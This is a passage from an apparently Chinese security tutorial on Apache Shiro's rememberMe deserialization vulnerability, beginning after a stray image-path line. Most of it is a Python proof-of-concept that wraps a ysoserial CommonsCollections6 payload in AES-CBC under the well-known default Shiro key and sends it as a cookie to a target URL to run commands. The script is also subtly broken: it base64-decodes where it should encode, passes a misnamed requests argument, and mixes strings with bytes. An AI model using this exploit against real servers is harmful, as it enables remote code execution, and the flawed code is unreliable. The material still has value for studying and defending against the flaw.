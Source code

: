 上面的调试中，我们可以知道AES加密模式为CBC模式，iv部分是利用System.arraycopy将16字节iv放在加密数据之前


### 构造poc

构造能正常反序列化的poc也比较简单，我们只需要遵循它的解密方式就可以了

	 1.通过yso生成序列化数据
	 2.使用AES进行加密
	 3.使用base64进行编码
	 4.得到Cookie

shrio_dns.py

	import sys
	import base64
	import uuid
	from random import Random
	import subprocess
	from Crypto.Cipher import AES
	import requests
	
	proxy={
	    "http":"http://127.0.0.1:9998",
	    "https":"https://127.0.0.1:9998",
	}
	
	def encode_rememberme(command,key):
	    popen=subprocess.Popen(['java','-jar','D:\ysoserial\ysoserial-master-8eb5cbfbf6-1.jar','CommonsCollections6',command],stdout=subprocess.PIPE)
	    BS = AES.block_size
	    pad = lambda s: s+((BS - len(s)%BS)*chr(BS-len(s)%BS)).encode()
	    mode = AES.MODE_CBC
	    iv = uuid.uuid4().bytes
	    encryptor = AES.new(base64.b64decode(key),mode,iv)
	    file_body = pad(popen.stdout.read())
	    base64_ciphertext = base64.b64decode(iv+encryptor.encrypt(file_body))
	    return "rememberMe="+base64_ciphertext
	
	if __name__ == '__main__':
	    keylist=['kPH+bIxk5D2deZiIxcaaaA==']
	
	    for key in keylist:
	        cookie = encode_rememberme(sys.argv[2],key)
	        header = {"Cookie":cookie}
	        print(header,key)
	        r = requests.get(sys.argv[1],header=header,verify=False)
	        print(r.status_code)

使用：

	python shiro_dns.py "url" "command"

使用ysoserial生成的CommonsCollections6的脚本利用不成功，JRMP系列的payload做反序列化二次利用就能成功这是为什么

回头看看反序列化那一步，这里的shiro实际上实现了一个ObjectInputStream的子类ClassResolvingObjectInputStream,用它来反序列化对象
